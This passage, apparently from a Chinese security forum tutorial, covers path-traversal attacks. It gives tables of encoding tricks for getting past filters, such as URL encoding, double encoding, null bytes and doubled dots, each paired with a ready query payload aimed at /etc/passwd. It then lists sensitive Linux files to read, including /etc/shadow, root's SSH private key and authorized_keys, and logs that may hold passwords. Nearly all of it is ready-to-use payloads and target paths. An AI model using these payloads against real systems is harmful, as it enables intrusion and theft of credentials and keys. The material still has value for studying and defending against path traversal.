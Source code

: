 ![image.png](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-42853fd03656cb74e7fabdb141838574e802d410.png)

#### 2、url编码绕过

|  |  |
|---|---|
| 使用 %2e 代替 . | ?name=%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd |
| 使用 %2f 代替 / | ?name=..%2f..%2f..%2f..%2f..%2fetc%2fpasswd |
| 使用 %2e%2e%2f 代替 ../ | ?name=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd |

常用绕过一般是后两种，点一般不会被过滤，因为文件名中间也会存在一个 **.**

#### 3、二次编码绕过

|  |  |
|---|---|
| 使用 %25%32%65 代替 . | ?name=%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd |
| 使用 %25%32%66 代替 / | ?name=..%252f..%252f..%252f..%252f..%252fetc%252fpasswd |
| 使用 %25%32%65%25%32%65%25%32%66&lt;br&gt;&lt;br&gt;代替 ../ | ?name=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd |

#### 4、将 / 替换为 \\ 绕过

#### 5、%00绕过

?name=.%00./.%00./.%00./.%00./etc/passwd

#### 6、双写绕过

有些代码会进行过滤，会把 ../ 置空，那么利用 ....// 代替 ../ ，利用 ..// 代替 /

这种情况很少见，视情况而定

漏洞利用
----

#### Linux 系统下利用

```php
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts
/etc/passwd
/etc/shadow
/etc/issue 系统版本
/etc/fstab
/etc/host.conf
/var/log/xferlog  FTP会话，记录拷贝了什么文件
/var/log/cron 计划任务日志
/etc/(cron.d/|crontab) //这两个也是定时任务文件
/var/log/secure 用户登录安全日志
/etc/rc.local 读apache的路径
/etc/motd
/etc/sysctl.conf
/var/log/syslog 记录登陆错误时的密码等信息
/etc/environment 环境变量配置文件 可能泄露大量目录信息
/etc/inputrc 输入设备配置文件
/etc/default/useradd 添加用户的默认信息的文件
/etc/login.defs 是用户密码信息的默认属性
/etc/skel 用户信息的骨架
/sbin/nologin 不能登陆的用户
/var/log/message 系统的日志文件
/etc/httpd/conf/httpd.conf 配置http服务的配置文件
```